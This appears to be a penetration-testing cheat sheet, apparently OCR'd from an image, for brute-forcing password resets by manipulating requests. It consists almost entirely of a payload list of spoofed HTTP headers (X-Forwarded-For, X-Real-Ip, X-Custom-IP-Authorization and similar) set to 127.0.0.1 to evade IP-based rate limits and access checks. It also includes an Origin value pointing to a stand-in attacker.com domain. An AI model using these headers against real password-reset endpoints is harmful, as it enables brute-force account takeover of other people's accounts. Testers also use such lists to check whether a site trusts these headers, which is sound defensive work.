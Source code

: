 	
    ### Brutal forcing on password reset
    ### On request manupilation
    
    X-Forward-For: 127.0.0.1
	Base-Url: 127.0.0.1
	Http-Url: 127.0.0.1
	Proxy-Url: 127.0.0.1
	Redirect: 127.0.0.1
	Real-Ip: 127.0.0.1
	Referer: 127.0.0.1
	Referrer: 127.0.0.1
	Refferer: 127.0.0.1
	Uri: 127.0.0.1
	Url: 127.0.0.1
	X-Host: 127.0.0.1
	X-Http-Destinationurl: 127.0.0.1
	X-Http-Host-Override: 127.0.0.1
	X-Original-Remote-Addr: 127.0.0.1
	X-Original-Url: 127.0.0.1
	X-Proxy-Url: 127.0.0.1
	X-Rewrite-Url: 127.0.0.1
	X-Real-Ip: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	X-Custom-IP-Authorization:127.0.0.1
	X-Originating-IP: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Original-Url:
	X-Forwarded-Server:
	X-Host:
	X-Forwarded-Host:
	X-Rewrite-Url:
    X-Forwarded-Host
	X-Forwarded-Port
	X-Forwarded-Scheme
	Origin: 
	nullOrigin: [siteDomain].attacker.com
	X-Frame-Options: Allow
	X-Forwarded-For: 127.0.0.1
	X-Client-IP: 127.0.0.1
	Client-IP: 127.0.0.1
	Proxy-Host: 127.0.0.1
	Request-Uri: 127.0.0.1
	X-Forwarded: 127.0.0.1
	X-Forwarded-By: 127.0.0.1
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-For-Original: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Forwarded-Server: 127.0.0.1
	X-Forwarder-For: 127.0.0.1